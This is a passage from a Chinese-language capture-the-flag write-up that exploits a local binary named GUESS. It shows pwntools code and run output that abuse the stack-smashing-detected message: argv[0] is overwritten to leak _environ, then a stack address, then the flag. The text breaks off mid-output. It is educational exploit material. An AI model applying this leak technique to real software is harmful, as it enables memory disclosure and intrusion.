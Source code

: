  ```java 
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_base_addr: 0x7ff71434f000


  ``` 
  
第二次泄漏_environ的值 
 
 ```java 
  environ_addr = libc_base_addr + libc.symbols['_environ']
# print 'environ_addr: ' + hex(environ_addr)
payload1 = 'a' * 0x128 + p64(environ_addr)
p.recvuntil('Please type your guessing flag')
p.sendline(payload1)
p.recvuntil('stack smashing detected ***: ')
stack_addr = u64(p.recv(6).ljust(0x8,'\x00'))
print 'stack_addr: '+hex(stack_addr)

pwn@pwn-PC:~/Desktop$ python exp.py 
[+] Starting local process './GUESS': pid 29707
[*] '/home/pwn/Desktop/GUESS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_base_addr: 0x7f8d02122000
stack_addr: 0x7ffc5a61c908


  ``` 
  
第三次泄漏flag的值 
 
 ```java 
  计算出stack_addr和buf_addr的相距长度
pwndbg> distance 0x7fffffffcca0 0x7fffffffce08
0x7fffffffcca0->0x7fffffffce08 is 0x168 bytes (0x2d words)

payload2 = 'a' * 0x128 + p64(stack_addr - 0x168)
p.recvuntil('Please type your guessing flag')
p.sendline(payload2)
p.recvuntil('stack smashing detected ***: ')
flag = p.recvline()
print 'flag:' + flag

pwn@pwn-PC:~/Desktop$ python exp.py 
[+] Starting local process './GUESS': pid 29877
[*] '/home/pwn/Desktop/GUESS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
 ```